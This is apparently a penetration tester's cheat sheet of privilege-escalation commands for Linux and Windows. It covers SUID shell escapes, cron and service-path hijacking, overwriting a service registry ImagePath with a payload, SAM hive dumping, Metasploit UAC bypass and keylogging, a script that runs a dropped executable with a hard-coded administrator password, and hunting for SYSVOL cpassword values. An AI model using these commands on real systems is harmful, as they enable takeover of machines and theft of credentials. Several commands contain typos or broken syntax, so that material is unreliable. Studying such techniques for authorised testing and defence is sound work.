 ```yaml
---
title: Priv Esc
category: Post-Exploitation
order: 96
---
```


>**Linux**

check sudo permissions | <code> sudo -l </code>
check for world writable files | <code> find / -perm -2 ! -tyle l -ls 2>/dev/null </code>
Cron Jobs | <code> cat /etc/crontab <br> #find files with week permisions</code>
Cron.d | Write a file to cron.d and wait for restart
Cron files | <code> ls /etc/cron.hourly/ <br> #can you write to any files </code>
Kernal Exploit | <code>Run uname -a, /etc/release, /etc/issue and find an exploit </code>
Application Exploit | Look for web servers, mail servers for command injection <br> Look for exploits in root owned programs
PATH | Look for '.' in the path for system users
SETUID/SETGUID | <code> find directory -user root -perm -4000 -exec ls -ld {} \; > /tmp/security-hole </code> <br> They may use the system syscall without specifying the path name 
User writable scripts | Look for scripts that have user writable permissions and are invoked by root (or call scripts that are invoked by root)
Enlightenment Exploit Pack | tbd
LD_PRELOAD | [SANS](https://pen-testing.sans.org/blog/2017/12/06/go-to-the-head-of-the-class-ld-preload-for-the-win)

Resources:
* [g0tmilk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [LinEnum](http://www.rebootuser.com/?p=1758)
* [LinuxPrivChecker](http://www.securitysift.com/download/linuxprivchecker.py)


**setuid permissions**
 
{% highlight bash %}

vi:
:shell
:set shell=/bin/bash
:! /bin/bash

less:
(press v - launching vi) :shell

more:
?,  !bash

more,less, man:
'! /bin/sh'
'!/bin/sh'
'!bash'

tee:
echo "evil script code" | tee script.sh

awk:
awk 'BEGIN {system("/bin/sh")}'

find . -exec bash -i \;
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

perl exec ""/bin/bash"";[ctrl-d]
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";

ruby exec ""bin/bash""
ruby: exec "/bin/sh"

python import os os.system('/in/bash')
python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()

lua: os.execute('/bin/sh')

irb(main:001:0> exec "/bin/sh"

nano 
{% endhighlight %}

>**Windows**

Find Unquoted Service Paths | <code> wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v "" </code>
Exploit Unquoted Service Paths | <code> Upload your exploit as C:\Program.exe, C:\Program Files.exe... as applicable with spaces </code>
Insecure Service Registry Permissions - Find Services | <code> REG QUERY HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\ /se #. </code>
Insecure Service Registry Permissions- Check Permissions | <code> Download SubInACL (see resources), install it on a windows machine, extract the C:\Program Files (x86)\Windows Resource Kits\Tools\subinacl.exe, and download it to the victim </code>
Insecure Service Registry Permissions- Check Permissions | <code> subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service" /display #Pay attention to pace</code>
Insecure Service Registry Permissions- Exploit Weak Permissions |<code> reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\testuser\AppData\Local\Temp\Payload.exe" /f </code>
Find SMB Version 1 | <code> Get-Item HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters | ForEach-Object {Get-ItemProperty $_.pspath} </code>
Find SMB Version 2/3 | <code> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters | ForEach-Object {Get-ItemProperty $_.pspath} </code>
Find SMB Version 2/3 | <code> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters | ForEach-Object {Get-ItemProperty $_.pspath} </code>
Check installed patches | wmic qfe list full /format:list 
Check Services | <code> wmic service get name,startname,pathname </code>
MSF Services | <code> use exploit/windows/local/service_permisssions </code>
Check Services | <code> for /F "tokens=2* delims= " %i in ('sc query ^| find /I "ce_name"') do @sc qc %i %j  </code>
Check Scheduled Tasks | <code> schtasks /query /fo list /v </code>
Check Startup | <code> wmic startup list full </code>
Check Permissions on Services, Tasks, and Startup |  <code> icacls executable <br> #look for something like Everyone:(CI)(F) or Users:(CI)(F) </code>
Missing Patches | <code> (New-Object -c Microsoft.Update.Session).CreateUpdateSearcher().Search("IsInstalled=0").Updates|Select Title </code>
Metasploit Get Privs | <code> use priv </code>
Metasploit Get System | <code> getsystem -n [number] or migrate [system pid] </code>
Metasploit keylogger | <code> keyscan_start, keyscan_stop, keyscan_dump </code>
Metasploit Bypass UAC | <code> use exploit/windows/local/bypassuac </code>
Hashed Passwords | <code> reg save HKLM\SAM C:\Windows\Temp\SAM </code>
Hashed Passwords | <code> reg save HKLM\SYSTEM SYSTEM </code>
SAM Locations | <code> c:\windows\repair, c:\winnt\repair </code>
Active Directory Representations | ntd.dit
Run a command as another user | <code> C:\> runas /noprofile /user:domain\username "mmc wf.msc" </code>

Run a command as another user Powershell

{% highlight bash %}
#create run.ps1
$secpasswd = ConvertTo-SecureString "sup3r53cr3tGP0pa55" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator",
$secpasswd)
$computer = "DEV01"
[System.Diagnostics.Process]::Start("C:\Windows\temp\dabbb118.exe","",
$mycreds.Username, $mycreds.Password, $computer)

#execute run.ps1
powershell -ExecutionPolicy Bypass -File c:\Windows\temp\run.ps1
{% endhighlight %}

Finding Passwords in SYSVOL 

{% highlight bash %}
net use z: \\dc01\SYSVOL
#change to z drive 
dir /s groups.xml, scheduledtasks.xml, Drives.xml, DataSources.xml, Printers.xml, Services.xml, ScheduledTasks.xml 
#Typically \\<DOMAIN>\SYSVOL\<DOMAIN>\Policies
dir /s *.vbs
#look for password or cpassword
type [file].xml
#If cpassword is found decrypt with https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
#or gpp-decrpyt in Kali 
{% endhighlight %}

http://pentestmonkey.net/uncategorized/from-local-admin-to-domain-admin
https://www.slideshare.net/riyazwalikar/windows-privilege-escalation

>**Mind Map**

[Priv Esc Mind Map](https://binaryexile.github.io/images/privesc.jpg)


